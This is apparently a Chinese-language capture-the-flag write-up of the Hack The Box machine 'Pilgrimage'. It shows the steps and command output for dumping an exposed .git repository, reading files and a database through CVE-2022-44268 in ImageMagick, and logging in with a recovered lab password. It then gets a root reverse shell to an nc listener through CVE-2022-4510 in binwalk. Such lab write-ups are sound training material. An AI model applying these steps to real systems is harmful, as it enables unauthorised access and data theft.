


*Difficulty: Easy*

---


## Summary

xxx

### Attack Path Overview

{ width='450' }


## 扫描

自用扫描脚本：[工作流](./HTB-Busqueda.md#workflow-scan)

开放端口：
```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
```


## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：“Design: TemplateMo”，查了下没啥特别的感觉
- 网页功能：将上传的图片缩小
- 网页源码：无特别发现
- 子域枚举：无特别发现
- 目录枚举：无特别发现

### 研究网页功能

是个能将上传的图片缩小的网站。  
因为有上传所以尝试了好久上传绕过，看看能不能传个webshell啥的。不过以失败告终。

能注册以及登陆，所以也尝试了SQLi。不过也以失败告终。  
用注册的号登陆进去的话，也只是会将上传历史列出来。

又想起来如[HTB-Stocker](./HTB-Stocker.md)那样，下载通过网页生成的pdf，可用 `exiftool` 工具分析生成器是否有漏洞。  
于是上传图片后下载，但是没有找到图片是用什么工具转换的，也无其他特别信息。

### .git泄露

……在准备继续研究上传绕过并如何解析为php脚本时，得到大佬提示说“.git泄露”。

于是立马试了一下访问 `http://pilgrimage.htb/.git`，不过显示403。  
想着可能是无法访问.git这个文件夹，就看了一眼自己git项目里的.git文件夹下面都有什么文件，然后试了一下访问目标的 `/.git/config`，直接将这个文件下载下来了……前面目录暴破也没发现这个啊……  
看了眼这个config文件里面也没什么信息。接着就琢磨这个.git文件夹下面有什么是值得看的？有什么敏感信息？尝试了几个文件名比较固定的文件，然而“objects”文件夹下的文件感觉会很多，也很难去一个一个下载、确认。

谷歌一下“git dump”，发现[git-dumper](https://github.com/arthaud/git-dumper)这个工具。  
安装好后运行命令dump目标的.git：
```bash
└─$ git-dumper http://pilgrimage.htb/.git/ target-git

└─$ cd target-git && ls -al          
总用量 26972
drwxr-xr-x 5 kali kali     4096  6月 25 06:14 .
drwxr-xr-x 4 kali kali     4096  6月 25 06:15 ..
drwxr-xr-x 6 kali kali     4096  6月 25 06:14 assets
-rwxr-xr-x 1 kali kali     5538  6月 25 06:14 dashboard.php
drwxr-xr-x 7 kali kali     4096  6月 25 06:14 .git
-rwxr-xr-x 1 kali kali     9250  6月 25 06:14 index.php
-rwxr-xr-x 1 kali kali     6822  6月 25 06:14 login.php
-rwxr-xr-x 1 kali kali       98  6月 25 06:14 logout.php
-rwxr-xr-x 1 kali kali 27555008  6月 25 06:14 magick
-rwxr-xr-x 1 kali kali     6836  6月 25 06:14 register.php
drwxr-xr-x 4 kali kali     4096  6月 25 06:14 vendor
```

原来不止.git文件夹，而是会直接dump整个git项目。

看一眼index.php，可以获得几条信息：

- 这个网站对上传图片的处理是用 `magick` ——而项目文件夹里就有同名文件
- 这个项目的路径估计就是“/var/www/pilgrimage.htb/”
- 数据库是用sqlite，连接“/var/db/pilgrimage”
- 数据库操作使用了预处理语句，应该就无法实施SQLi了

```php
└─$ head -n 40 index.php
<?php
session_start();
require_once "assets/bulletproof.php";

function isAuthenticated() {
  return json_encode(isset($_SESSION['user']));
}

function returnUsername() {
  return "\"" . $_SESSION['user'] . "\"";
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  $image = new Bulletproof\Image($_FILES);
  if($image["toConvert"]) {
    $image->setLocation("/var/www/pilgrimage.htb/tmp");
    $image->setSize(100, 4000000);
    $image->setMime(array('png','jpeg'));
    $upload = $image->upload();
    if($upload) {
      $mime = ".png";
      $imagePath = $upload->getFullPath();
      if(mime_content_type($imagePath) === "image/jpeg") {
        $mime = ".jpeg";
      }
      $newname = uniqid();
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      unlink($upload->getFullPath());
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
      if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
      header("Location: /?message=" . $upload_path . "&status=success");
    }
    else {
      header("Location: /?message=Image shrink failed&status=fail");
    }
  }
```


## Initial Access

### PoC (CVE-2022-44268)

既然SQLi不用想了，也没什么其他思路。先看看项目文件夹里的 `magick` 文件。  
`file` 命令查看后的确是个可执行文件，那么应该就是用的这个二进制文件去处理图片。

```bash
└─$ file magick                                       
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

查看版本，好确认一下是否有公开漏洞：
```bash
└─$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

└─$ searchsploit ImageMagick 7.1.         
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
ImageMagick 7.1.0-49 - Arbitrary File Read                                        | multiple/local/51261.txt
ImageMagick 7.1.0-49 - DoS                                                        | php/dos/51256.txt
---------------------------------------------------------------------------------- ---------------------------------
```

版本号完美一致。  
DoS攻击打靶不太可能，直接看那个任意文件读取。里面放了个[PoC连接](https://github.com/voidz0r/CVE-2022-44268)。

先按照文章里的操作，在目标网站将编译的图片payload上传（运行命令后按照提示安装依赖），下载被处理后的图片，然后查看图片中16进制部分，按文章里的方法用python，或者使用CyberChef转换，成功复现这个PoC。  
可以看到 `/etc/passwd` 里面有个“emily”用户，应该是我们的目标。  
但是在这之后又立刻僵住了——我还能利用这个漏洞查看什么文件以获得更多有用的信息？  
也想着是否有枚举失败的子域，实际的入口在其他网站？既然是nginx，就确认了一下 `/etc/nginx/nginx.conf`，但是很遗憾没有配置其他子域。

然后又想起来之前打过的[HTB-Ambassador](./HTB-Ambassador.md)有直接把整个数据库文件拿下来的操作。于是开始尝试这条路。  
由于之前那个靶机也是用sqlite，并且数据库文件的扩展名是“.db”，导致我以为sqlite都是这样的。于是猜想代码中的 `sqlite:/var/db/pilgrimage` 是不是仅仅指向一个项目文件夹 `/var/db/pilgrimage`，然后sqlite程序会自己找项目里面的DB文件。所以需要我熟悉sqlite项目的文件夹结构，定位到项目的数据库文件将其用作payload参数。导致我尝试了“/var/db/pilgrimage/pilgrimage.db”等payload都没能获取到数据库文件……  
然而在询问过ChatGPT之后才知道自己想多了。sqlite的数据库文件可以没有扩展名，代码里的写法就是指这个靶机的数据库文件为 `/var/db/pilgrimage`。

#### 获取SQL数据库文件

既然数据库文件就是 `/var/db/pilgrimage`，那么如之前一样的方法，

1. 将payload参数改为"/var/db/pilgrimage"再次编译出图片：`cargo run "/var/db/pilgrimage"`
1. 在目标网站上传编译的payload `image.png` 后再下载，命名为 `db.png`
1. 用命令 `identify -verbose db.png`，将16进制部分保存到文件 `db_dump`

感觉进入这个数据库里应该能获取用户凭据。但是实际上用 `sqlite3 db_dump` 访问这个数据库文件后，会发现虽然看上去有进入数据库，但是使用有些命令时会报错说这个文件不是数据库。  
于是用 `file` 命令查看刚刚保存的16进制文件，发现它被识别为单纯的“ASCII text”。

```bash
sqlite> .tables
Error: file is not a database

└─$ file db_dump
db_dump: ASCII text
```

所以关键是将这个16进制文本转换为sqlite数据。问了一下ChatGPT：



照着用 `xxd` 命令之后又用 `file` 命令确认，似乎成功转换为sqlite数据库文件了。
```bash
└─$ file database.db 
database.db: SQLite 3.x database, last written using SQLite version 3034001, file counter 60, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 60
```

### 获得数据库中的用户凭据

进入数据库翻找，成功获取 `emily` 的用户凭据:
```sql
└─$ sqlite3 database.db 
SQLite version 3.39.3 2022-09-05 11:02:23
Enter ".help" for usage hints.
sqlite> .tables
images  users 
sqlite> SELECT * from users;
emily|abigchonkyboi123
```


## flag: user

SSH连接后获得用户flag：
```bash
└─$ ssh emily@10.10.11.219
……
emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
emily@pilgrimage:~$ cat user.txt 
468e……5945
```


## Privilege Escalation

### 探索

基础探索一把梭：

- 有当前用户的凭据所以先看了眼 `sudo -l`：没有sudo可执行
- SUID：无特别发现
- cron：有个php引人注目，不过内容是清理会话。也无其他特别发现
- emily的家目录：
    - 注意到有个 `.gitconfig`，而我们就是通过.git泄露进来的，估计没什么其他有用信息了。姑且确认了一下，里面只写了git项目的文件路径
    - 还有个 `.config`，里面有个binwalk文件夹。这个好像是分析二进制的工具

看一下 `binwalk` 版本然后搜搜公开漏洞：
```bash
emily@pilgrimage:~/.config/binwalk$ binwalk -h

Binwalk v2.3.2
……


└─$ searchsploit Binwalk v2.3.            
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Binwalk v2.3.2 - Remote Command Execution (RCE)                                   | python/remote/51249.py
---------------------------------------------------------------------------------- ---------------------------------
```

又是版本号完美匹配。`searchsploit -m 51249` 把exp脚本拿下来看看。 

### PoC (CVE-2022-4510)
 
利用上应该是运行这个python脚本，参数指定一张图片、和反弹shell的IP、port。运行后会生成一个新图片 `binwalk_exploit.png`，估计是用什么方式让这个文件被读取后即可获得反弹shell。

那么就要寻找让图片被读取的方式。

80端口网站的上传图片处理，以及访问被处理的图片应该算吧。但是尝试过后发现nc监听器没反应。想想也是啊，这是binwalk的漏洞，网站的图片处理是另一个命令……

exp脚本里写了CVE号码CVE-2022-4510，搜一下看看能不能明白一些什么：

> <https://nvd.nist.gov/vuln/detail/CVE-2022-4510>  

这里的简介有说到 `binwalk` 用 `-e` 选项时有什么PFS的漏洞。  
*其实也看到一些复现文章，但是有点长……先放放。以后想理解原理的时候可以看看*

那可以看看有什么进程在运行这个命令，或者试试搜搜有没有什么脚本执行了这个命令。  
看进程的话用pspy64，脚本的话grep试试看。

#### 寻找可疑binwalk执行：grep方式

一开始直接 `fgrep -r 'binwalk -e' / 2>/dev/null'`，但是等了一阵子一直都没啥反应，于是删掉“2>/dev/null”再次运行。发现原来刚刚是去搜了很多 `/proc/` 下的东西，并且搜到八九百多就莫名卡住了。那就把这个目录排除再搜搜……在排除了两个目录后，可以迅速找到有个脚本：
```bash
emily@pilgrimage:~$ fgrep -r --exclude-dir=proc --exclude-dir=run 'binwalk -e' /
/usr/sbin/malwarescan.sh:       binout="$(/usr/local/bin/binwalk -e "$filename")"
```

*本来没理解grep这个 `--exclude-dir` 的语法，写成 `--exclude-dir=/proc` 但是一直不管用。搜了半天才明白，原来这个选项后填写的目录参数似乎是相对于搜索目标的路径（即上述命令的根目录）而言，所以不能写绝对路径，直接写 `--exclude-dir=proc` 即可。*

#### 寻找可疑binwalk执行：pspy方式

将pspy64传到靶机运行，可以发现似乎在80端口的网站一上传图片就会接着触发一个 `/usr/sbin/malwarescan.sh` 脚本执行。  
*这次由于靶机是公用，所以还有好多玩家一起打，算是帮了大忙了。不然自己可能会完全丢弃这个我觉得已经攻略完成的80端口。*

```bash
2023/06/29 20:03:37 CMD: UID=33    PID=1293   | php-fpm: pool www                                                                                                                                                                     
2023/06/29 20:03:37 CMD: UID=33    PID=1294   | /var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png             
2023/06/29 20:03:37 CMD: UID=33    PID=1295   | /var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png             
2023/06/29 20:03:37 CMD: UID=0     PID=1296   | fusermount -o ro,nosuid,nodev,subtype=magick -- /tmp/.mount_magicklua6M4                                                                                                              
2023/06/29 20:03:37 CMD: UID=0     PID=1298   | /lib/systemd/systemd-udevd 
2023/06/29 20:03:37 CMD: UID=33    PID=1297   | /var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png             
2023/06/29 20:03:37 CMD: UID=33    PID=1301   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=33    PID=1300   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=33    PID=1302   | 
2023/06/29 20:03:37 CMD: UID=33    PID=1303   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=33    PID=1304   | 
2023/06/29 20:03:37 CMD: UID=33    PID=1305   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=33    PID=1306   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=33    PID=1307   | /bin/bash /tmp/.mount_magicklua6M4/AppRun convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png  
2023/06/29 20:03:37 CMD: UID=0     PID=1308   | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/29 20:03:37 CMD: UID=0     PID=1309   | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/29 20:03:37 CMD: UID=0     PID=1311   | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/29 20:03:37 CMD: UID=0     PID=1310   | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/29 20:03:37 CMD: UID=0     PID=1312   | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/29 20:03:38 CMD: UID=33    PID=1313   | /var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/649d56f9a548f5.45061830_gkfhjmoinlpqe.png -resize 50% /var/www/pilgrimage.htb/shrunk/649d56f9a553f.png
```

*不是很懂为什么好几条同样的命令用了几个进程去执行*

### 分析目标脚本的利用方式

看一下我们定位到的可疑脚本：
```bash
cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

有一些没怎么见过的命令，如 `inotifywait`，将整个脚本扔给ChatGPT：

> `/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do`: 这是一个inotifywait命令，用于监视目录`/var/www/pilgrimage.htb/shrunk/`中的文件创建事件。`-m`选项表示持续监视，`-e create`表示只关注文件的创建事件。管道操作符`|`将inotifywait的输出传递给后续的命令。

即其实关键是通过 `inotifywait` 命令的监控，如果 `/var/www/pilgrimage.htb/shrunk/` 下有新文件时，对其进行读取并调用我们所期望的 `binwalk -e`。  
需要注意，关于“`-e create`表示只关注文件的创建事件”，看该命令的help文档可以发现，“移动”过去的文件不算是“创建”，所以用 `mv` 命令是无效的。

```bash
emily@pilgrimage:~$ /usr/bin/inotifywait --help
……
        -e|--event <event1> [ -e|--event <event2> ... ]
                Listen for specific event(s).  If omitted, all events are 
                listened for.
……
Events:
        moved_to        file or directory moved to watched directory
        moved_from      file or directory moved from watched directory
        move            file or directory moved to or from watched directory
        create          file or directory created within watched directory
```

### 上传exp、触发反弹shell

将我们之前用exp脚本生成的图片payload（binwalk_exploit.png）传到靶机（由于玩家较多所以稍微改了一下图片名），开启监听，然后 `cp` 将文件**复制**到 `/var/www/pilgrimage.htb/shrunk/`，即可获得root权限的反弹shell。

```bash
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.219] 51448

id
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

一开始并不在/root目录下，应该跟这个漏洞的原理有关。移动到/root目录后即可获取root flag。

```bash
ls 
_649d565edf744.png.extracted
_649d569d6aa82.png.extracted
_649d56b47cc76.png.extracted
_649d56e1eae10.png.extracted
_649d56f9a553f.png.extracted
_binxp1.png.extracted
pwd
/root/quarantine
cd 
ls
quarantine
reset.sh
root.txt
cat root.txt
221b……4a2d
```


---

## 总结·后记

2023/06/26

这次的突破口是.git泄露啊，还是第一次听说。所以网站根目录下不能放.git文件夹。  
以及后来看了一下各个目录暴破的字典，都没有看.git下的文件的。看来以后也需要将其作为一个攻击向量，在最开始就一并尝试。于是又更新了我的[WP模板](./WriteUp-template.md)。  

然后就是几次图片payload的利用。本来以为会是图片webshell，竟然是以其他方式，有意思。不过具体原理也依旧没详细看，挖坑等之后有空补补了……